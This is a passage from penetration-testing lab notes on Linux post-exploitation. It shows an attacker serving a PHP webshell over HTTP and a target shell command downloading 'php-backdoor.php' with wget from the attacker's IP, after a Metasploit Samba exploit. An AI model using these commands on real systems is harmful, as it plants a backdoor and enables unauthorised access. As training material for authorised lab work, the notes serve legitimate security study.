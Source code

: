 #### Linux

- After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
- 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - *is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it*

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```

![wget http://<ATTACKER_IP>/php-backdoor.php](hostnetwork-penetration-testingassets/image-20230428232055646.png)

## Interactive Shells

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.
